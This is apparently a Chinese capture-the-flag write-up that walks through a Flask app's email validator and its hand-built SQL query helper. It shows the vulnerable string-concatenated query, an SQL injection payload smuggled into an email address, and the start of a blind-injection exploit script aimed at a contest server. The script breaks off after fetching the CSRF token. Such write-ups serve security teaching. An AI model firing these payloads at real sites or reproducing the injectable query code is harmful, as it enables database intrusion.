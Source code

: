 回到`validate_email`验证函数中：
```
def validate_email(self, email):
    user = mysql.One("user", {"email":  "'%s'" % email.data}, \["id"\])
    if user != 0:
        raise ValidationError('Please use a different email address.')
```
跟入`mysql.One`，定义在others.py:
```
\# mysql.One("user", {"email":  "'%s'" % email.data}, \["id"\])
def One(self, tablename, where={}, feildname=\["*"\], order="", where_symbols="=", l="and"):
    \# self.Sel("user", {"email":  "'%s'" % email.data}, \["id"\], "", "=", l)
    sql = self.Sel(tablename, where, feildname, order, where_symbols, l)
    try:
        res = self.db_session.execute(sql).fetchone()
        if res == None:
            return 0
        return res
    except:
        return -1
```
跟入`self.Sel`:
```
\# self.Sel("user", {"email":  "'%s'" % email.data}, \["id"\], "", "=", l)
def Sel(self, tablename, where={}, feildname=\["*"\], order="", where_symbols="=", l="and"):
    sql = "select "
    sql += "".join(i + "," for i in feildname)\[:-1\] + " "
    sql += "from " + tablename + " "
    if where != {}:
        sql += "where " + "".join(i + " " + where_symbols + " " +
                                    str(where\[i\]) + " " + l + " " for i in where)\[:-4\]
    if order != "":
        sql += "order by " + "".join(i + "," for i in order)\[:-1\]
    return sql
```
最后拼接出来的sql语句如下：

`select id from user where email = 'your input email'`

结合前面所说的对输入邮箱email形式的验证，这里存在sql注入漏洞。我们设置邮箱为`test'/**/or/**/1=1#@test.com`，则拼接后的sql语句为：

`select id from user where email = 'test'/**/or/**/1=1#@test.com'`

可以看到成功注入。由于此处不能回显数据，因此采用盲注。回到`validate_username`
```
def validate_username(self, username):
    if re.match("^\[a-zA-Z0-9_\]+$", username.data) == None:
        raise ValidationError('username has invalid charactor!')
    user = mysql.One("user", {"username": "'%s'" % username.data}, \["id"\])
    if user != 0:
        raise ValidationError('Please use a different username.')
```
当查询为真时也即`user != 0`会出现信息`Please use a different username.`，结合这点构造出最后的exp.py：
```
import requests
from bs4 import BeautifulSoup

url = "http://39.107.32.29:20000/register"

r = requests.get(url)
soup = BeautifulSoup(r.text,"html5lib")
token = soup.find_all(id='csrf_token')\[0\].get("value")

notice = "Please use a different email address."
result = ""

```